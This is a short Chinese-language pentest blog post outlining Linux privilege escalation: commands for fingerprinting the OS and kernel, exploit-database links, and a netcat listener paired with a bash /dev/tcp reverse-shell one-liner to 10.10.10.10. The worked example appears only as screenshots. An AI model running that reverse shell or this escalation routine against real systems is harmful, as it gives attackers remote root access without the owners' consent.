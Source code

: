 +++
date = "2016-08-09T19:23:13+08:00"
description = ""
draft = false
tags = ["提权"]
title = "Linux下系统漏洞提权"
topics = ["Pentest"]

+++

### 0x00 Linux下的提权
> Linux下一般都是系统漏洞提权，分为以下几个步骤：
```
1. 获取系统版本号
2. 根据系统版本号找对应exp
3. 反弹shell
4. 尝试利用
```

### 0x01 提权
* 获取系统版本号
    * 获取发行版本
        * cat /etc/*-release
        * cat /etc/issue
        * cat /etc/lsb-release
        * cat /etc/redhat-release
    * 获取内核版本
        * cat /proc/version
        * uname -a
        * uname -mrs
        * rpm -q kernel
        * dmesg | grep Linux
        * ls /boot | grep vmlinuz
* 根据系统版本号找对应exp
    * http://www.exploit-db.com
    * http://1337day.com
    * http://www.securiteam.com
    * http://www.securityfocus.com
    * http://www.exploitsearch.net
    * http://metasploit.com/modules
    * http://securityreason.com
    * http://seclists.org/fulldisclosure
    * http://www.google.com
* 反弹shell
    * 本地：```nc -l -p 8888```
    * 目标机器：```/bin/bash -i >& /dev/tcp/10.10.10.10/8888 0>&1```
* 尝试利用

### 0x02 实例
* 得到系统版本号
{{% fluid_img src="/img/post/privilge_escalation_linux_get_sys_version.png" alt="得到系统版本号.png" %}}
* 找对应exp
{{% fluid_img src="/img/post/privilge_escalation_linux_search_exp.png" alt="找相应exp.png" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_linux_exp_code.png" alt="保存exp源码.png" %}}
* 反弹shell
{{% fluid_img src="/img/post/privilge_escalation_linux_webshell_rebound_shell.png" alt="反弹shell.png" %}}
* 提权
{{% fluid_img src="/img/post/privilge_escalation_linux_write_exp_code.png" alt="下载exp源码.png" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_linux_compile_exp_code.png" alt="编译exp源码.png" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_linux_run_exp.png" alt="运行exp.png" %}}
